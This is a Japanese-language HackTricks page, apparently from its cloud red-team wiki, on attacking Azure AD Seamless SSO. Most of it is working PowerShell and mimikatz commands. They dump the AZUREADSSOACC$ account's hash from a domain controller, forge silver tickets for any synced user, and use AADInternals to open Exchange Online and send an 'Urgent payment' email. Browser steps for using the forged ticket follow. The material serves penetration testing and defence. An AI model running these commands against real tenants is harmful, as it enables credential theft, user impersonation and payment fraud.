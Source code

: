 # Az - シームレス SSO

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

## 基本情報

Azure Active Directory シームレス シングル サインオン (Azure AD シームレス SSO) は、社内ネットワークに接続された企業のデバイスを使用しているユーザーを自動的に**サインインさせます**。有効にすると、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく**、通常はユーザー名さえ入力する必要がありません。この機能は、追加のオンプレミスコンポーネントを必要とせずに、ユーザーがクラウドベースのアプリケーションに簡単にアクセスできるようにします。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本的にAzure AD シームレス SSOは、**オンプレミスドメインに参加しているPC上にいるユーザー**をサインインさせます。

[**PHS (Password Hash Sync)**](phs-password-hash-sync.md) と [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) の両方でサポートされています。

デスクトップSSOは**Kerberos**を使用して認証します。設定時に、Azure AD ConnectはオンプレミスAD内に`AZUREADSSOACC$`という**コンピュータアカウントを作成します**。`AZUREADSSOACC$`アカウントのパスワードは、設定中に**Azure ADにプレーンテキストで送信されます**。

**Kerberosチケット**はパスワードの**NTHash (MD4)** を使用して**暗号化され**、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**はKerberos**チケット**を受け入れる**エンドポイント** (https://autologon.microsoftazuread-sso.com) を公開しています。ドメイン参加しているマシンのブラウザは、SSOのためにこのエンドポイントにチケットを転送します。

### オンプレミス -> クラウド

ユーザー`AZUREADSSOACC$`の**パスワードは決して変更されません**。したがって、ドメイン管理者はこのアカウントの**ハッシュを侵害する**可能性があり、それを使用して**任意のオンプレミスユーザーと同期されたAzureに接続するためのシルバーチケットを作成する**ことができます：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、次のように**シルバーチケットを生成**できます：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
シルバーチケットの使用方法:

1. _Mozilla Firefox_ を起動します。
2. **`about:config`** にアクセスし、[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) の設定を [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com` に設定します。
3. AADドメインと統合されている任意のWebアプリケーションに移動します。最も一般的に使用されている [Office 365](https://portal.office.com/) を使用します。
4. ログオン画面で、ユーザー名を入力し、パスワードフィールドは空のままにして、TABまたはENTERを押します。

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
これはMFAが有効な場合はバイパスしません
{% endhint %}

#### ~~クラウド専用ユーザーのためのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directoryの管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーにSIDを設定**することができます。この方法で、**クラウド専用ユーザーにもKerberosチケットを作成**することができます。唯一の要件は、SIDが適切な [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) であることです。

{% hint style="danger" %}
クラウド専用の管理ユーザーのSIDの変更は、現在 **Microsoftによってブロックされています**。\
詳細は [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) を確認してください。
{% endhint %}

### オンプレミス -> クラウド リソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントがあるコンテナまたはOUでコンピュータアカウント (`AZUREADSSOACC$`) を管理できる人は、**アカウントに対してリソースベースの制約付き委任を設定し、アクセスする**ことができます。

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksに広告を掲載したい**、または **HackTricksをPDFでダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や [**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
